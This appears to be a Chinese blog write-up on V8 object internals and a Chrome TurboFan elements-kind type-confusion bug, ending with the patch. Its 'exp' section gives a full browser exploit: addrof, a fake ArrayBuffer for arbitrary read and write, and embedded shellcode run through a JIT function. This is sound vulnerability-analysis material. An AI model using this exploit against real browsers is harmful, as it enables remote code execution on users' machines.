




参考链接：https://ssd-disclosure.com/ssd-advisory-chrome-turbofan-remote-code-execution/

https://zhuanlan.zhihu.com/p/24982678

https://richardartoul.github.io/jekyll/update/2015/04/26/hidden-classes.html


### 基础部分

##### JSObject

```
[ hiddenClass / map	] -> ... ; 指向Map
[ properties  		] -> [empty array]
[ elements    		] -> [empty array]
[ reserved #1 		] -\
[ reserved #2		]  |
[ reserved #3 		]  }- in object properties,即预分配的内存空间
...............  	   |
[ reserved #N 		] -/
```

- Map中存储了一个对象的元信息，包括对象上属性的个数，对象的大小以及指向构造函数和原型的指针等等。同时，Map中保存了Js对象的属性信息，也就是各个属性在对象中存储的偏移。然后属性的值将根据不同的类型，放在properties、element以及预留空间中。
- properties指针，用于保存通过属性名作为索引的元素值，类似于字典类型
- elements指针，用于保存通过整数值作为索引的元素值，类似于常规数组
- reserved #n，为了提高访问速度，V8在对象中预分配了的一段内存区域，用来存放一些属性值（称为in-object属性），当向object中添加属性时，会先尝试将新属性放入这些预留的槽位。当in-onject槽位满后，V8才会尝试将新的属性放入properties中。

我们来看个例子：

code:
```
let obj = {0 : 0x1234 , 1 : 0x4567 , 'a' : 0x789 , 'b' : 0xabc};

for(let i = 0; i < 5 ; i++)
{
    key = 'a' + i.toString();
    obj[key] = 0xaaaaaaa;
    obj[i + 2] = 0xbbbbbb;
}

%DebugPrint(obj);

%SystemBreak();
```


```
DebugPrint: 0x170989c0aa41: [JS_OBJECT_TYPE]
 - map: 0x2bdb0a60a689 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x2aaee9c82611 <Object map = 0x2bdb0a600229>
 - elements: 0x170989c0aa69 <FixedArray[17]> [HOLEY_ELEMENTS]
 - properties: 0x170989c0af59 <PropertyArray[6]> {
    #a: 1929 (data field 0)
    #b: 2748 (data field 1)
    #a0: 178956970 (data field 2) properties[0]
    #a1: 178956970 (data field 3) properties[1]
    #a2: 178956970 (data field 4) properties[2]
    #a3: 178956970 (data field 5) properties[3]
    #a4: 178956970 (data field 6) properties[4]
 }
 - elements: 0x170989c0aa69 <FixedArray[17]> {
           0: 4660
           1: 17767
         2-6: 12303291
        7-16: 0x31c9138805b9 <the_hole>
 }
```

存储在properties中：
```
pwndbg> x/10gx 0x170989c0af59-1
0x170989c0af58:	0x000031c913881821	0x0000000600000000
0x170989c0af68:	0x0aaaaaaa00000000	0x0aaaaaaa00000000
0x170989c0af78:	0x0aaaaaaa00000000	0x0aaaaaaa00000000
0x170989c0af88:	0x0aaaaaaa00000000	0x000031c9138804d9
```

存储在elements中：
```
pwndbg> x/10gx 0x170989c0aa69-1
0x170989c0aa68:	0x000031c9138807b9	0x0000001100000000
0x170989c0aa78:	0x0000123400000000	0x0000456700000000
0x170989c0aa88:	0x00bbbbbb00000000	0x00bbbbbb00000000
0x170989c0aa98:	0x00bbbbbb00000000	0x00bbbbbb00000000
0x170989c0aaa8:	0x00bbbbbb00000000	0x000031c9138805b9
```
存储在in-object中
```
pwndbg> x/10gx 0x170989c0aa41-1
0x170989c0aa40:	0x00002bdb0a60a689	0x0000170989c0af59
0x170989c0aa50:	0x0000170989c0aa69	0x0000078900000000
0x170989c0aa60:	0x00000abc00000000	0x000031c9138807b9
0x170989c0aa70:	0x0000001100000000	0x0000123400000000
0x170989c0aa80:	0x0000456700000000	0x00bbbbbb00000000
```

看了这个例子应该就能直观的了解前面所说的内容了。

这里再补充一个东西：
如果要存储的属性大于16位，就会出现下面这种情况：
```
let obj = {0 : 0x1234 , 1 : 0x4567 , 'a' : 0x789 , 'b' : 0xabc};

for(let i = 0; i < 3 ; i++)
{
    key = 'a' + i.toString();
    obj[key] = 0xaaaaaaaaaa;
    obj[i + 2] = 0xbbbbbbbbb;
}

for(let i = 3; i < 5 ; i++)
{
    key = 'a' + i.toString();
    obj[key] = 0xffffffffff;
}

%DebugPrint(obj);

%SystemBreak();
```
properties:
```
 - properties: 0x2a8f72d0aff1 <PropertyArray[6]> {
    #a: 1929 (data field 0)
    #b: 2748 (data field 1)
    #a0: 0x2a8f72d0ad21 <MutableHeapNumber 7.33008e+11> (data field 2) properties[0]
    #a1: 0x2a8f72d0ade9 <MutableHeapNumber 7.33008e+11> (data field 3) properties[1]
    #a2: 0x2a8f72d0aed9 <MutableHeapNumber 7.33008e+11> (data field 4) properties[2]
    #a3: 0x2a8f72d0b031 <MutableHeapNumber 1.09951e+12> (data field 5) properties[3]
    #a4: 0x2a8f72d0b141 <MutableHeapNumber 1.09951e+12> (data field 6) properties[4]
 }


pwndbg> x/2gx 0x2a8f72d0ad21-1
0x2a8f72d0ad20:	0x000020a4db1815a1	0x4265555555554000 <- [0xaaaaaaaaaa]

pwndbg> x/2gx 0x2a8f72d0b031-1
0x2a8f72d0b030:	0x000020a4db1815a1	0x426fffffffffe000 <- [0xffffffffff]
```

最后再放上一张图：


#### Map transitions

当我们向对象添加新属性时，该对象的当前map将会失效，此时会为他创建一个新map来适应新的结构，并将一个transition descriptor加入到原map，以显示如何将其改为新地图。

举个例子：

```
Var obj = {}; // Map M0 is created and assigned to the object

obj.x = 1; // Map M1 created, shows where to store the value x. A transition “x” is added to M0 with target M1.

obj.y=1; // Map M2 created, shows where to store the value y. A transition “y” is added to M1 with target M2.
```
v8开始创建一个新对象，首先它会创建一个所谓c0的隐藏类（也就是上面说的map），因为此时还未向对象添加任何属性，所以此时的隐藏类为空：


此时调用obj.x = 1，为当前的object创建了新的属性x，此时v8会基于c0创建一个隐藏类c1来替换c0，然后在c1中存放对象属性x的内存位置信息：

这里从C0到C1的变化称为转换（Transitions），当我们为同一个类型的对象添加新的属性时，并不是每次都会创建新的隐藏类，而是多个对象会共用某个符合转换条件的隐藏类。接下来继续执行obj.y = 1 这一条语句，会为object创建新的属性。此时 V8 会进行以下步骤：

基于C1创建另一个隐藏类C2，并且将关于属性y的位置信息写入到C2中。

更新C1为其添加转换信息，即当为objct添加属性 y 时，应该转换到隐藏类 C2。



在内联高速缓存未命中时，这些Transitions将被编译器用来重新优化功能。

### Map/Shapes/Hidden Class/。。。。

它有很多称呼：
- 学术论文称它们为 隐藏类 (混淆了的w.r.t. JavaScript类)。
- V8称他们为Maps (混淆了w.r.t. JavaScript Map)
- Chakra称它们为类型（混淆了w.r.t.JavaScript的动态类型和typeof）
- JavaScriptCore称它们为 Structures
- SpiderMonkey将它们称为 Shapes

我们在上文中提及，如果每次添加新的属性时都创建新的隐藏类无疑是极大的性能浪费，实际上当我们再次创建新的对象时，V8 并不会创建新的隐藏类而是使用已有的，过程描述如下：

- 初始化新的Point对象，并将隐藏类指向C0。

- 添加x属性时，遵循隐藏类的转换原则指向到C1 , 并且根据C1指定的偏移地址写入x。

- 添加y属性时，遵循隐藏类的转换原则指向到C2，并且根据C2指定的偏移地址写入y。

这里要注意：我们在上文使用了链表的方式来表示transitions，但实际上在v8中它是以树的结构来描述transitions以及其中的关系的，这样的好处是可以处理下面的这一场景(属性一致而顺序颠倒)：
```
1  function Point(x,y) {
2    this.x = x;
3    this.y = y;
4  }
5 
7  var obj1 = new Point(1,2);
8  var obj2 = new Point(3,4);
9
10 obj1.a = 5;
11 obj1.b = 10;
12
13 obj2.b = 10;
14 obj2.a = 5;
```
直到第9行，obj1和obj2共享相同的隐藏类。但是，由于属性a和b的添加顺序相反，由于遵循单独的转换路径，obj1和obj2最终具有不同的隐藏类。




### Inline Caches（内联缓存）
每当在特定对象上调用方法时，V8引擎都必须对该对象的隐藏类执行查找，以确定用于访问特定属性的偏移量。在对相同的隐藏类成功两次调用相同的方法之后，V8会省略隐藏类查找，而只是将属性的偏移量添加到对象指针本身。对于以后对该方法的所有调用，V8引擎都假定隐藏类未更改，并使用以前查找中存储的偏移量直接跳到特定属性的内存地址中。这大大提高了执行速度。

内联缓存也是为什么其如此重要以至于相同类型的对象共享隐藏类的原因。如果创建两个具有相同类型但具有不同隐藏类的对象（如我们在前面的示例中所做的那样），则V8将无法使用内联缓存，因为即使这两个对象属于同一类型，它们对应的隐藏也是如此。类为其属性分配不同的偏移量。


推荐阅读：https://juejin.cn/post/6844904167333429256


### Elements kind

如上所述，对象的元素是编号键的值。这些数据存储在一个从对象指向的规则数组中。对象的映射有一个叫做ElementsKind的特殊位域。此字段描述元素数组中的值是 boxed, unboxed, contiguous, sparse，等等。仅因Elements kind不同而不同的映射不会通过Transitions连接起来。

### V8 arrays

v8中的数组是有类型的，可以有“boxed”或“unboxed”值。这基本上决定了数组是否只保存双精度值(整数也表示为双精度值)，因此可以直接保存值(通常称为“快速”数组)，或者数组也保存更复杂的值，在这种情况下，这些值实际上是指向对象的指针。
两种情况的简化表示:

(array本身的类型决定了值是boxed或者是unboxed)。

如果我们有一个fast array（如上图的左图），然后将一个复杂对象（如一个数组）分配给其中一个element，则整个array将会变成一个boxed类型，改array上的所有值都将更改为boxed。

### V8 optimization

V8编译器首先分析javascript代码，生成JIT编译的代码，并对使用内联缓存的类型进行非常宽松的假设。
下面的解释来自谷歌的V8文档:
V8在第一次执行时直接将JavaScript源代码编译成机器码。没有中间字节码，没有解释器。属性访问是由内联缓存代码处理的，当V8执行....时，可能会被其他机器指令修补
V8通过预测这个[对象的]类也将用于在同一段代码中访问的所有未来对象，来优化属性访问，并使用类中的信息来修补内联缓存代码以使用隐藏类。如果V8正确预测了该属性的值，则在一次操作中分配(或获取)该属性的值。如果预测不正确，V8会对代码进行修补，删除优化。”
因此，编译器只编译适用于特定类型的代码。如果这个代码段(或函数)下次执行的类型与已编译的类型不匹配，就会发生“内联缓存丢失”，导致编译器重新编译代码。
 
举例子时间：
```
f（arg_obj）{ 
	return arg_obj.x; 
} 
var o1 = {“ x”：1，“ y”：2} 
var o2 = {“ x”：1，“ t”：2}
```
当o1首先被调用时，编译器将会生成如下代码：
```
(ecx holds the argument)
cmp [ecx + <hidden class offset>], <cached o1 class>
jne <inline cache miss> - this will execute compiler code
mov eax, [ecx + <cached x offset>]
```
当使用o2再次调用该函数时，就会发生高速缓存未命中，并且该函数的JIT代码将由编译器代码更改。


### Root Case

```
<script>
// 将被优化以更改元素类型的函数。
function change_elements_kind(a){
	a[0] = Array;
}
// 该函数将被优化为直接作为未装箱读取值(因此将读取指针作为值)。
function read_as_unboxed(){
    return evil[0];
}
// First, 让函数被编译
change_elements_kind({});
// 构造一个新对象，此时有一个map M0
map_manipulator = new Array(1.0,2.3);
// 添加一个新属性‘x’. M0 will now have an ‘x’ transition to the new one, M1.
map_manipulator.x = 7;
// 对该对象调用change_elements_kind函数. A version of the function for this M1 will be compiled.
change_elements_kind(map_manipulator);
// 更改对象的'x'属性类型。从M0到M1的先前的“ x”过渡将被删除，并且M1将被弃用。生成一个新的映射M2，从M0开始有一个新的“ x”过渡。
map_manipulator.x = {};
// 生成我们将用于漏洞的对象。确保它属于M2地图。
evil = new Array(1.1,2.2);
evil.x = {};
x = new Array({});
//优化change_elements_kind。
// 将调用ReduceElementAccess，然后依次调用ComputeElementAccessInfos。
// 下面的代码段（与以前相同），我们可以看到代码遍历了所有映射（注意：这些是已经在此函数中使用并已编译的映射），并尝试更新每个映射。
// 到达M1时，TryUpdate会发现它已被弃用，并寻找合适的未弃用的映射并找到M2，因为它具有相同的属性。 
//因此，将从M2创建一个元素类型过渡。

for(var i = 0;i<0x50000;i++){
    change_elements_kind(x);
}
// 优化read_as_unboxed。Evil当前是M2映射的一个实例，因此将
为此功能进行优化，并实现快速元素访问（Evil仅保存unboxed编号的属性）。

for(var i = 0;i<0x50000;i++){
    read_as_unboxed();
}
// 触发evil的元素种类变化。由于change_elements_kind是通过
//元素类型过渡进行优化的，因此evil的映射将仅更改以反映新的元素类型。
change_elements_kind(evil);
//调用read_as_unboxed。它仍然是M2，因此不会发生高速缓存未命中，并且是
执行了优化的版本。但是，该版本假定elements数组中的值unboxed，因此Array构造函数指针（存储在change_elements_kind中的位置0）将作为双精度值返回。
alert(read_as_unboxed());
</script>
```

总结来说就是：
- 当对诸如上面的change_elements_kind这样的函数进行优化时，由于该函数只改变了elements的类型，而没有改变属性，所以在缓存未命中时，它将会寻找最合适的未弃用的map，并通过该map创建一个Element kind transitions。（这么做的原因是：Element kind transitions对于该情况来说只要改变Element kind即可完成重新优化，如果没有他去重新生成新的map将会是一个非常浪费资源的操作）。
- 但是当对一个stable map的object进行上面提到的优化时，将会出现问题，它只会对当前优化的函数做Element kind的更改。
- 我们回到代码：通过优化change_elements_kind(x);生成了一个Element kind transitions并且将其Element kind做了改变，接着对read_as_unboxed();进行优化，因为它仍是M2，所以此处并不会发生缓存命中失败，在此处将会通过保存偏移实现元素快速访问（也就是内联缓存），并且change_elements_kind(x)优化时的对Element kind的修改并没有影响到read_as_unboxed()，所以它的内联缓存保存的将是unboxed的属性。
- 这样的话接着去执行最后两行的代码，change_elements_kind(evil);改变evil[0]，但是read_as_unboxed时通过缓存快速获得元素，将会以double的形式返回，这样就得到了类型混淆的addrof原语。


补充一个：

Element kind transitions是通过调用ReduceElementAccess，然后依次调用ComputeElementAccessInfos

### exp

```
<script>
var shellcode = [0xe48348fc,0x00c0e8f0,0x51410000,0x51525041,0xd2314856,0x528b4865,0x528b4860,0x528b4818,0x728b4820,0xb70f4850,0x314d4a4a,0xc03148c9,0x7c613cac,0x41202c02,0x410dc9c1,0xede2c101,0x48514152,0x8b20528b,0x01483c42,0x88808bd0,0x48000000,0x6774c085,0x50d00148,0x4418488b,0x4920408b,0x56e3d001,0x41c9ff48,0x4888348b,0x314dd601,0xc03148c9,0xc9c141ac,0xc101410d,0xf175e038,0x244c034c,0xd1394508,0x4458d875,0x4924408b,0x4166d001,0x44480c8b,0x491c408b,0x8b41d001,0x01488804,0x415841d0,0x5a595e58,0x59415841,0x83485a41,0x524120ec,0x4158e0ff,0x8b485a59,0xff57e912,0x485dffff,0x000001ba,0x00000000,0x8d8d4800,0x00000101,0x8b31ba41,0xd5ff876f,0xa2b5f0bb,0xa6ba4156,0xff9dbd95,0xc48348d5,0x7c063c28,0xe0fb800a,0x47bb0575,0x6a6f7213,0x89415900,0x63d5ffda,0x00636c61]
var arraybuffer = new ArrayBuffer(20);
flag = 0;
function gc(){
    for(var i=0;i<0x100000/0x10;i++){
        new String;
    }
}
function d2u(num1,num2){
    d = new Uint32Array(2);
    d[0] = num2;
    d[1] = num1;
    f = new Float64Array(d.buffer);
    return f[0];
}
function u2d(num){
    f = new Float64Array(1);
    f[0] = num;
    d = new Uint32Array(f.buffer);
    return d[1] * 0x100000000 + d[0];
}
function change_to_float(intarr,floatarr){
    var j = 0;
    for(var i = 0;i < intarr.length;i = i+2){
        var re = d2u(intarr[i+1],intarr[i]);
        floatarr[j] = re;
        j++;
    }
}
function change_elements_kind_array(a){
	a[0] = Array;
}
optimizer3 = new Array({});
optimizer3.x3 = {};
change_elements_kind_array(optimizer3);
map_manipulator3 = new Array(1.1,2.2);
map_manipulator3.x3 = 0x123;
change_elements_kind_array(map_manipulator3);
map_manipulator3.x3 = {};
evil3 = new Array(1.1,2.2);
evil3.x3 = {};
for(var i = 0;i<0x100000;i++){
	change_elements_kind_array(optimizer3);
}
/******************************* step 1    read ArrayBuffer __proto__ address   ***************************************/
function change_elements_kind_parameter(a,obj){
	arguments;
	a[0] = obj;
}
optimizer4 = new Array({});
optimizer4.x4 = {};
change_elements_kind_parameter(optimizer4);
map_manipulator4 = new Array(1.1,2.2);
map_manipulator4.x4 = 0x123;
change_elements_kind_parameter(map_manipulator4);
map_manipulator4.x4 = {};
evil4 = new Array(1.1,2.2);
evil4.x4 = {};
for(var i = 0;i<0x100000;i++){
	change_elements_kind_parameter(optimizer4,arraybuffer.__proto__);
}
function e4(){
	return evil4[0];
}
for(var i = 0;i<0x100000;i++){
	e4();
}
change_elements_kind_parameter(evil4,arraybuffer.__proto__);
ab_proto_addr = u2d(e4());
var nop = 0xdaba0000;
var ab_map_obj = [
	nop,nop,
	0x1f000008,0x000900c3,   //chrome 59
	//0x0d00000a,0x000900c4,  //chrome 61
	0x082003ff,0x0,
	nop,nop,   // use ut32.prototype replace it
	nop,nop,0x0,0x0
]
ab_constructor_addr = ab_proto_addr - 0x70;
ab_map_obj[0x6] = ab_proto_addr & 0xffffffff;
ab_map_obj[0x7] = ab_proto_addr / 0x100000000;
ab_map_obj[0x8] = ab_constructor_addr & 0xffffffff;
ab_map_obj[0x9] = ab_constructor_addr / 0x100000000;
float_arr = [];
gc();
var ab_map_obj_float = [1.1,1.1,1.1,1.1,1.1,1.1];
change_to_float(ab_map_obj,ab_map_obj_float);
/******************************* step 2    read fake_ab_map_ address   ***************************************/
change_elements_kind_parameter(evil4,ab_map_obj_float);
ab_map_obj_addr = u2d(e4())+0x40;
var fake_ab = [
	ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
	ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
	ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
	0x0,0x4000, /* buffer length */
	0x12345678,0x123,/* buffer address */
	0x4,0x0
]
var fake_ab_float = [1.1,1.1,1.1,1.1,1.1,1.1];
change_to_float(fake_ab,fake_ab_float);
/******************************* step 3    read fake_ArrayBuffer_address   ***************************************/
change_elements_kind_parameter(evil4,fake_ab_float);
fake_ab_float_addr = u2d(e4())+0x40;
/******************************* step 4 fake a ArrayBuffer   ***************************************/
fake_ab_float_addr_f = d2u(fake_ab_float_addr / 0x100000000,fake_ab_float_addr & 0xffffffff).toString();
eval('function e3(){  evil3[1] = '+fake_ab_float_addr_f+';}')
for(var i = 0;i<0x6000;i++){
	e3();
}
change_elements_kind_array(evil3);
e3();
fake_arraybuffer = evil3[1];
if(fake_arraybuffer instanceof ArrayBuffer == true){
}
fake_dv = new DataView(fake_arraybuffer,0,0x4000);
/******************************* step 5 Read a Function Address   ***************************************/
var func_body = "eval('');";
var function_to_shellcode = new Function("a",func_body);
change_elements_kind_parameter(evil4,function_to_shellcode);
shellcode_address_ref = u2d(e4()) + 0x38-1;
/**************************************  And now,we get arbitrary memory read write!!!!!!   ******************************************/
	function Read32(addr){
		fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);
		return fake_dv.getUint32(0,true);
	}
	function Write32(addr,value){
		fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);
		alert("w");
		fake_dv.setUint32(0,value,true);
	}
	shellcode_address = Read32(shellcode_address_ref) + Read32(shellcode_address_ref+0x4) * 0x100000000;;
	var addr = shellcode_address;
	fake_ab_float[4] = d2u(addr / 0x100000000,addr & 0xffffffff);
	for(var i = 0; i < shellcode.length;i++){
		var value = shellcode[i];
		fake_dv.setUint32(i * 4,value,true);
	}
	alert("boom");
	function_to_shellcode();
</script>
```

### 补丁



很简单，就是在FindElementsKindTransitionedMap调用之前加一个判断is_stable()。


